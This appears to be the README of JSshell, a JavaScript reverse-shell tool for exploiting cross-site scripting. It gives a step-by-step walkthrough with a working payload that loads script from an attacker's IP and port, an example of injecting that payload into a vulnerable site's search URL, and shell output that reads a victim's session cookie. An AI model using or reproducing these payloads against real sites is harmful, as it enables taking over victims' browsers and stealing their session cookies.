 # xss-to-shell-JavaScript
# JSshell
JSshell - a JavaScript reverse shell. This using for exploit XSS remotely, help to find blind XSS, ...

This tool works for both Unix and Windows operating system and it can running with both Python 2 and Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from other javascript shells).

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically close):  `-w`
#### Execute a command when got the shell:  `-c`

#### Example usages:
- `js.py`
- `js.py -g`
- `js.py -p 1234`
- `js.py -s 48.586.1.23 -g`
- `js.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is an example for step-by-step to exploit remote XSS using JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   js.py
~# python3 js.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL) that vulnerable to XSS:

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'hacked'
$ alert(hacked)
$
```
And the browser got an alert:  `hacked`

```
$ prompt(document.cookie)
$
```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This created by shelld3v, hacking at HackOne and Bugcrowd with a secret account! This tool is inspired by JShell (s0med3v), using the BruteLogic payload. JSshell 2.0 will has some new features that include:

- More payloads for `<img>`, `<script>`, ...
- Some shortcut commands: print the current session, domain, endpoint, ...
- Better GUI  
...
